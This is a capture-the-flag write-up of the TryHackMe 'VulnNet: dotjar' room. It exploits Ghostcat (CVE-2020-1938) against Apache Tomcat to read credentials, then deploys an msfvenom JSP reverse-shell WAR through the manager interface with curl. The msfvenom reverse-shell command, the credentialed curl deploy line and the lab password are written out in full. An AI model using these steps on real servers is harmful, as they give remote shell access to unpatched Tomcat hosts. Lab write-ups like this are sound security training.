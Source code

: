 ```yaml
---
title: Vulnet dotjar
layout: post
author: Bit Criminals Team
date: 2021-05-12 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotjar
---
```


Let's start our daily routine nmap scan:

![](/images/dotjar1.png)

So, we get a 8009 port and a 8080 port on which Apache Tomcat is running.Well,the 8009 was new to me at least.

I then ran gobuster for port 8080 and here's what I got

![](/images/dotjar4.png)

I tried to login to the /manager/ directory but it asked for username and password.I was able to login to /host-manager/ but it was of no help.

After searching a bit,I finally found a help 
from my bestie-Google.I found a article about a exploit named **Ghostcat** CVE-2020-1938.

```https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp```

Then,I searched for this exploit with searchsploit and look I found a python script:multiple/webapps/48143.py 

![](/images/dotjar2.png)

Finally I ran the python script.

```python 48143.py <boxip>```

![](/images/dotjar3.png)

and here we go.We get a username and a password ***webdev:Hgj3LA$02D$Fa@21***.That's what we wanted. 

Then,again I started to look for some exploits to hack the Tomcat apache server running in port 8080
and google again prove it's supremacy.

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

Reading this article I understood that we had to create a reverse shell and then upload it to port 8080.
I also understood that the exploit must be a war file.Here's what I came up with msfvenom. 

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=1234 -f war > shell.war```

Then, I uploaded it with curl command as follows

``` curl -u 'webdev:Hgj3LA$02D$Fa@21' --upload-file shell.war  "http://ip:8080/manager/text/deploy?path=/monshell"```

Listening to the given port,1234 as given in the exploit in this case,I opened the /monshell/ directory in which I had uploaded the shell.

And,yes we get a shell and I was logged in as 'web'

![](/images/dotjar5.png)
